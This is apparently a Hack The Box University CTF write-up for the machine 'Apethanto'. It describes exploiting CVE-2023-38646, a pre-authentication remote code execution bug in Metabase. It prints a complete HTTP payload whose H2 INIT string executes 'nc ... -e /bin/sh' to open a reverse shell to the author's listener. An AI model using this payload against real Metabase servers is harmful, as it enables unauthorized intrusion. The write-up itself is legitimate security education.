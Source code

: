 ```yaml
---
title: Apethanto
date: 2023-12-10T14:21:20+02:00
description: Writeup for Apethanto [HTB University 2023]
type: writeup
author: H0N3YP0T
tags:
- fullpwn
- web
draft: false
---
```

___

## Intuition

We first arrive into a website which seems to be static. But after inspecting the source code we noticed a link to a `metabase` vhost.
After adding the vhost to my `/etc/hosts` file, I was able to access the metabase instance.
![website](/images/HTB_University_2023/apethanto.png)
![website](/images/HTB_University_2023/metabase.png)

After some research, I found out that the metabase instance was vulnerable to CVE-2023-38646, a pre-authentication RCE vulnerability.

## Solution

In order to exploit the vulnerability I first created an `nc` server on my machine to be able to RCE and I used the following payload:

```http request
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 734


{
    "token": "819139a8-1ce9-46f0-acf8-9b4fc0d1164b",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
  "details": {
            "advanced-options": true,
            "classname": "org.h2.Driver",
            "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('nc 10.10.15.8 8000 -e /bin/sh');",
            "subprotocol": "h2"
        },
"engine": "postgres",
        "name": "x"
    }

}
```

After running the payload, I received a reverse shell on my machine and I was able to read the flag in `/home/metabase/user.txt`.



